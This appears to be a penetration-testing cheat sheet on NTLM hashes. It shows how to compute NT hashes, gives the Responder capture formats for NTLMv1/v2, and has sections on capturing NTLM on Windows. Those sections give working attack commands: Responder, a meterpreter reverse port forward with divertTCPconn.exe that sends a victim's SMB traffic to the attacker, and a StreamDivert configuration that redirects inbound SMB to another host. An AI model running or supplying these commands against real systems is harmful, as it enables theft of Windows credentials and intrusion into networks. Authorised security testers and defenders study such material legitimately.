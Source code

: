 ```yaml
---
description: NT / LM Hashes
---
```


# NTLM

* [https://blog.redforce.io/windows-authentication-and-attacks-part-1-ntlm/](https://blog.redforce.io/windows-authentication-and-attacks-part-1-ntlm/)




## Calculate NTLM

* [https://www.browserling.com/tools/ntlm-hash](https://www.browserling.com/tools/ntlm-hash)

With Python:

```python
>>> import hashlib
>>> hashlib.new('md4', 'Passw0rd!'.encode('utf-16le')).hexdigest()
```

With [Pypykatz](https://github.com/skelsec/pypykatz):

```
$ pypykatz crypto nt 'Passw0rd!'
```




## Responder Capture Structure

* [https://github.com/lgandx/Responder/blob/eb449bb061a8eb3944b96b157de73dea444ec46b/servers/SMB.py#L149](https://github.com/lgandx/Responder/blob/eb449bb061a8eb3944b96b157de73dea444ec46b/servers/SMB.py#L149)
* [https://ru.wikipedia.org/wiki/NTLMv2#NTLMv2](https://ru.wikipedia.org/wiki/NTLMv2#NTLMv2)
* [https://www.ivoidwarranties.tech/posts/pentesting-tuts/responder/cheatsheet/](https://www.ivoidwarranties.tech/posts/pentesting-tuts/responder/cheatsheet/)
* Andrei Miroshnikov. Windows Security Monitoring: Scenarios and Patterns, Part III, pp. 330-333.

`[SMB] NTLMv1 Hash` and `[SMB] NTLMv1-SSP Hash` capture structure:

```
<Username>:<Domain>:<LMv1_Response>:<NTv1_Response>:<Server_Challenge>
```

`[SMB] NTLMv2-SSP Hash` capture structure:

```
<Username>:<Domain>:<Server_Challenge>:<LMv2_Response>:<NTv2_Response>
```




## Capture NTLM on Windows

* [https://reqrypt.org/windivert.html](https://reqrypt.org/windivert.html)
* [https://github.com/basil00/Divert](https://github.com/basil00/Divert)
* [https://googleprojectzero.blogspot.com/2021/08/understanding-network-access-windows-app.html](https://googleprojectzero.blogspot.com/2021/08/understanding-network-access-windows-app.html)



### DivertTCPconn

* [https://github.com/Arno0x/DivertTCPconn](https://github.com/Arno0x/DivertTCPconn)

Divert incoming SMB traffic on Victim to Victim's local port 8445, sent it through a reverse-forwarded port (meterpreter session must be elevated) to Attacker's local 445 port and capture the hashes with Responder:

```
$ sudo ./Responder.py -I eth0 -Av
meterpreter > portfwd add -R -L 127.0.0.1 -l 445 -p 8445
meterpreter > execute -f divertTCPconn.exe -a "445 8445"
```



### StreamDivert

* [https://github.com/jellever/StreamDivert](https://github.com/jellever/StreamDivert)

Divert all inbound TCP connections to port 445 (SMB) coming from 192.168.1.11 to 10.10.13.37 port 445:

```
Cmd > powershell -c "Add-Content conf.txt 'tcp < 445 192.168.1.11 -> 10.10.13.37 445'"
Cmd > .\StreamDivert.exe .\conf.txt -f -v
```
